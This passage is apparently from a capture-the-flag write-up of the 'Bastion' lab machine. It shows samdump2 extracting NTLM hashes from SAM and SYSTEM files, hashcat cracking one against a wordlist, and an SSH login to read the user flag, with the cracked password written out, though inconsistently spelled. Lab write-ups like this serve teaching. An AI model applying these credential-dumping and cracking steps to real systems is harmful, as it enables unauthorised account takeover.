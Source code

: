 Lots of stuff, but the SAM files are there which is great. Now I can run a command to read hashes from the SAM file. It will need the SYSTEM and SAM file since one encrypts the other. :
```
#samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Cool. That's the user hash! I can now get a login for them!
Since this is a windows machine, we can be pretty safe in assuming this is an NTLM hash, but checking doesn't hurt. 
From there, we run hashcat to crack it:
```
$ hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

... SNIP ...
26112010952d963c8dc4217daec986d9:bureaulampje    
  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: 26112010952d963c8dc4217daec986d9


```
So now I have the credentials:
```
L4mpje
bureulampje
```

Since the SSH port was open, I can probably just use that. 

```
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt                                                                                                                                                                
exxxxxxxxxxxxxxxxxxxxxxxxxxxxxx4
l4mpje@BASTION C:\Users\L4mpje\Desktop> 
```
We now have a quick way of accessing a user shell!

# Escalation

Quick note, I'm not sure if significant, but the IPv6 for the box is interresting:
```
Ethernet adapter Ethernet0:                                                                                               

   Connection-specific DNS Suffix  . : .htb                                                                               
   IPv6 Address. . . . . . . . . . . : dead:beef::81                                                                      
   IPv6 Address. . . . . . . . . . . : dead:beef::8d2b:6a36:d578:891b                                                     
   Link-local IPv6 Address . . . . . : fe80::8d2b:6a36:d578:891b%4                                                        
   IPv4 Address. . . . . . . . . . . : 10.129.136.29                                                                      
   Subnet Mask . . . . . . . . . . . : 255.255.0.0                                                                        
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:2bb5%4                                                         
                                       10.129.0.1  
```
